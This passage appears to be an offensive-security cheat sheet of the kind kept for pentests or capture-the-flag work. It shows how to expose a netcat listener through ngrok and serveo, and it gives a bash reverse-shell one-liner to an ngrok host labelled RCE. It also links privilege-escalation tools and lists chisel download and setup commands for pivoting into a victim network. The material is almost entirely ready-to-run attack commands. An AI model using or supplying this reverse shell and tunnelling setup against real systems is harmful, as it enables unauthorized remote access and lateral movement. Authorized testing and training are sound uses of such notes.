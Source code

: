 #### Public network

- https://cheatsheet.haax.fr/shells-methods/reverse/

```bash
#term1
ngrok config add-authtoken TOKEN
ngrok tcp 4444
```

`Forwarding                    tcp://5.tcp.eu.ngrok.io:16833 -> localhost:4444`

```bash
#term2
nc -nlvp 4444
```

RCE:

```bash
sh -i >& /dev/tcp/5.tcp.eu.ngrok.io/16833 0>&1
```

**Privesc / Post - Exploitation**:

- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/DominicBreuker/pspy

```bash
# processus en cours
ps aux
```

## Port Forwarding

- https://github.com/Nicocha30/ligolo-ng (SOCK5 alternative)
- https://github.com/jpillora/chisel
- http://michalszalkowski.com/security/pivoting-tunneling-port-forwarding/chisel-socks5-tunneling-windows-rev/
- http://web.archive.org/web/20220612232400/https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019


### Public TCP forwarding

```bash
ssh -R 9000:localhost:9000 serveo.net
nc -nlvp 9000
```

### Pivoting / Remote Port Forwarding + Tunneling

#### Attacker / HOST (chisel, do the same on remote/ victim)

```bash
rm -rf /opt/tools/chisel/
mkdir -p /opt/tools/chisel/

wget https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_linux_amd64.gz -O /opt/tools/chisel/chisel.gz
gzip -d /opt/tools/chisel/chisel.gz
mv /opt/tools/chisel/chisel /opt/tools/chisel/chisel.elf
chmod +x /opt/tools/chisel/chisel.elf
```
